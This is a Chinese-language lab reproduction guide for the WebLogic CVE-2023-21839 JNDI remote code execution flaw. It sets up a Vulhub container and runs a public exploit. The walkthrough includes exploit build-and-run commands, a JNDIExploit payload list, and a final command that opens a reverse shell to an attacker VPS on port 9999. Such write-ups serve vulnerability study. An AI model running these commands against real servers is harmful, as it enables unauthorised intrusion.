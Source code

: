 # Weblogic 未授权远程代码执行漏洞 CVE-2023-21839

## 漏洞描述

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞。

参考链接:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 漏洞影响

```
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

Vulhub执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-vps-ip:7001/console`可以看到管理界面

![image-20230228142512212](images/image-20230228142512212.png)

## 漏洞复现

Weblogic CVE-2023-21839 RCE Exploit：https://github.com/4ra1n/CVE-2023-21839

需要使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server，此处使用 ：

- JNDIExploit：https://github.com/WhiteHSBG/JNDIExploit
- **java version：1.8.0_361**

如果发现 panic 或有其他报错，说明目标不存在漏洞（或关闭了 IIOP 功能）。

Linux/Mac OS：

```
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows：

```
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

在Windows上的DNS Log：

```
C:\Threekiii> CVE-2023-21839.exe -ip <your-vps-ip> -port 7001 -ldap ldap://9xqmx0.dnslog.cn
[*] your-ip: <your-vps-ip>
[*] your-port: 7001
[*] your-ldap: ldap://9xqmx0.dnslog.cn
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![image-20230228145744308](images/image-20230228145744308.png)

Windows上测试反弹Shell不成功，转到Linux系统执行。

启动JNDI服务器：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i <your-vps-ip>

------------
[+] Basic Queries: ldap://<your-vps-ip>:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://<your-vps-ip>:1389/Basic/Dnslog/[domain]
    ldap://<your-vps-ip>:1389/Basic/Command/id
    ldap://<your-vps-ip>:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999  ---windows NOT supported
    ...
```

执行Exploit：

```
./CVE-2023-21839 -ip <your-vps-ip> -port 7001 -ldap ldap://<your-vps-ip>:1389/Basic/ReverseShell/<your-vps-ip>/9999
```

监听9999端口，成功接收反弹Shell：

![image-20230228154614995](images/image-20230228154614995.png)
